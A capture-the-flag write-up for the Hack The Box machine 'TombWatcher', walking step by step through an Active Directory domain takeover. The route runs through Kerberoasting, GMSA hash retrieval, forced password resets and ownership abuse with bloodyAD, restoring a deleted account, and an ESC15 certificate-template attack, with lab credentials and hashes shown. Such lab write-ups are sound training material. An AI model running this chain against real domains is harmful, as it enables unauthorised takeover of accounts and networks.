



# TombWatcher (HTB) – Professional Yet Chill Writeup

I went into this Windows box with the provided user creds already in hand: `henry / H3nry_987TGV!`. From there it was all about layering AD abuse techniques and eventually diving into an AD CS (Certificate Services) misconfiguration (ESC15) to grab the crown. This was only my second Windows box, so a lot of the path felt like a milestone—especially the early privilege chaining up to user.

---

## Initial Enumeration

I started with a classic port scan. Kerberos + LDAP + WinRM + ADWS + certificate-related stuff immediately screamed corporate AD environment with potential for BloodHound-driven escalation.

```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49693/tcp open  unknown
49712/tcp open  unknown
49718/tcp open  unknown
49740/tcp open  unknown
```

With LDAP available and valid creds, I moved straight to BloodHound collection:

```
bloodhound-ce-python -u 'henry' -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```

Inside BloodHound I spotted that `henry` had `WriteSPN` rights over the user `ALFRED`.



That immediately suggested a targeted Kerberoasting opportunity: add a fake SPN to Alfred, request a TGS, crack it locally since the TGS is derived from Alfred’s password hash.

I used a targeted Kerberoast script (`./targetedKerberoast.py`), pulled the hash, fed it to Hashcat, and recovered:

```
alfred : basketball
```

Great—pivot established.

---

## Chaining Privileges: Alfred → INFRASTRUCTURE → GMSA Abuse

BloodHound’s shortest path view (I checked the full route to a remote-access-capable account) confirmed step 2 was to pivot via a group edge.



Alfred could add himself to the `INFRASTRUCTURE` group. `net rpc` failed for me here, so I swapped to `bloodyAD` which handled it cleanly:

```
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "Alfred" -p "basketball" add groupMember "INFRASTRUCTURE" "Alfred"
[+] Alfred added to INFRASTRUCTURE
```

BloodHound also highlighted that `INFRASTRUCTURE` could retrieve the password for a GMSA account: `ANSIBLE_DEV$`.

I dumped the managed password attribute:

```
bloodyAD -u Alfred -p basketball -d tombwatcher.htb --host 10.10.11.72 get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword

distinguishedName: CN=ansible_dev,CN=Managed Service Accounts,DC=tombwatcher,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:4f46405647993c7d4e1dc1c25dd6ecf4
```

Only the NTLM hash is shown in this simplified attribute view, but that’s enough for authentication (for supported tools) or to try password set operations if allowed.

---

## Moving Through Sam

Next BloodHound insight: I had `ForceChangePassword` rights over `sam`. So I just set a known password using the GMSA context:

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p :4f46405647993c7d4e1dc1c25dd6ecf4 set password sam 'basketball'
[+] Password changed successfully!
```

At this point I authenticated as `sam`.

---

## Owning John via Ownership Manipulation

From there, `sam` had `WriteOwner` on `john`. Classic escalation vector: take ownership, grant yourself powerful rights, optionally Kerberoast if SPNs can be added, or just reset the password.

First I swapped owner:

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'basketball' set owner 'john' 'sam'
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by sam on john
```

Then I granted `GenericAll` to `sam` over `john`:

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'basketball' add genericAll 'john' 'sam'
[+] sam has now GenericAll on john
```

My original plan was to avoid resetting John's password to preserve the original one for others, so I tried Kerberoasting again (adding an SPN and requesting a TGS) and at one point recovered:

```
john : Password123
```

However, coming back later that password no longer worked (rotation or change), and I couldn’t crack the new hash quickly—so I fell back to resetting it:

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'basketball' set password john 'basketball'
[+] Password changed successfully!
```

John was a member of `REMOTE MANAGEMENT USERS`, so I connected via WinRM and grabbed the user flag from his Desktop.

---

## Stuck Moment → Deleted Objects Insight

After user, I stalled for a while. An external hint nudged me: “Check for deleted AD objects.” That pushed me into enumerating tombstoned (soft-deleted) objects:

```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -Properties * |
    Select-Object Name, Description, LastKnownParent
```

I saw multiple deleted objects named like `cert_admin...` under `OU=ADCS`. That naming plus the OU screamed certificate infrastructure involvement.

Since I had `GenericAll` over the ADCS OU (or relevant container path), I restored one of the deleted `cert_admin` accounts. I first grabbed its GUID using the same Get-ADObject query (after a few trials I chose the last one), then:

```
Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf" -TargetPath "OU=ADCS,DC=tombwatcher,DC=htb"
Set-ADAccountPassword -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf" -Reset -NewPassword (ConvertTo-SecureString -AsPlaintext "basketball" -Force)
```

Now I had a resurrected certificate-related principal: effectively `cert_admin`.

---

## AD CS Enumeration and Template Weakness (WebServer / ESC15)

Enumerating certificate templates (via tools like Certipy) showed an interesting template:

Template name: WebServer  
Key points pulled:

- Template display: Web Server  
- Schema version: 1  
- Extended Key Usage: Server Authentication (no Client Authentication)  
- Enrollee supplies subject: True (`Certificate Name Flag : EnrolleeSuppliesSubject`)  
- Enabled: True  
- Validity: 2 years  
- Permissions included a mysterious SID: `S-1-5-21-1392491010-1358638721-2126982587-1111` among enrollment / write sets  
- I had rights via restored cert_admin to enroll / manipulate aspects.

Even though it only advertises Server Authentication, with schema version 1 + EnrolleeSuppliesSubject set, it triggered an ESC15 warning:

```
[!] Vulnerabilities
    ESC15 : Enrollee supplies subject and schema version is 1.
[*] Remarks
    ESC15 : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

That matched the public write-up pattern for abusing ESC15 to craft a certificate that can be used to authenticate as a higher-privileged user (e.g. Domain Admin) by specifying a privileged subject / SAN.

Reference I consulted:
https://www.hackingarticles.in/adcs-esc15-exploiting-template-schema-v1/

I followed the ESC15 exploitation flow (enrolling a certificate while supplying a malicious subject targeting a privileged identity) using Certipy. The environment appeared unpatched, so the abuse worked.

The resulting certificate let me authenticate—interestingly I initially only got functional LDAP-based access (using an LDAP shell) rather than an immediate Kerberos TGT for interactive WinRM. Still, LDAP was enough to perform high-impact directory writes.



From the LDAP shell I reset the `Administrator` account password (clean and direct), then authenticated via WinRM as a full Domain Admin and grabbed the root flag from Administrator’s Desktop.

---

## Wrap-Up & Reflections

End-to-end flow:

henry creds → BloodHound recon → WriteSPN Kerberoast Alfred → Alfred to INFRASTRUCTURE → Read GMSA (ANSIBLE_DEV$) password → force change `sam` → ownership + GenericAll over `john` → WinRM user flag → analyze deleted AD objects → restore `cert_admin` → enumerate AD CS WebServer template → identify ESC15 (schema v1 + EnrolleeSuppliesSubject) → abuse to mint elevated cert → LDAP shell → reset Administrator password → WinRM → root.

What tripped me up:

- I glossed over the SID (`S-1-5-21-...-1111`) in the template permissions when I first saw it—should’ve dug deeper sooner.
- I tried to preserve original passwords (nice in theory for multi-user boxes) but had to pivot to resetting when the Kerberoasted hash path dried up.
- Recognizing deleted cert-related accounts as a path catalyst took an external hint; now I’ll always enumerate deleted objects earlier.

What I liked:

- The chain touches a wide swath of AD: SPNs, Kerberoasting, group-based GMSA retrieval, ownership abuse, certificate services, and a contemporary vuln (ESC15 / CVE-2024-49019 context).
- Very tangible progression. Each escalation felt earned and instructional rather than guessy.

Second Windows box for me, and it cemented a lot of concepts—especially around layering BloodHound insights and not ignoring “soft” artifacts like deleted objects or odd SIDs in template ACLs.

Huge props to the box creators. Learned a lot. On to the next.
